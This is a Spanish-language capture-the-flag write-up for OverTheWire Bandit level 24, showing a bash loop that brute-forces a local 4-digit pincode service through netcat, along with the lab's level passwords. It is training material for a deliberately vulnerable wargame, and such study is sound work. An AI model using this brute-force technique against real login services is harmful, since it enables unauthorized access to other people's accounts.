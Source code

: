 # Bandit Level 24 → Level 25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de Acceso
ssh bandit24@bandit.labs.overthewire.org -p 2220
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solucion
```shell
bandit24@bandit:~$ nc -v localhost 30002 Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded! I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space. VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123 Wrong! Please enter the correct pincode. Try again. VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987 Wrong! Please enter the correct pincode. Try again. ^C 
bandit24@bandit:~$ for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003 bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space. Correct! The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d Exiting.
```

## Notas Adicionales

## Referencias
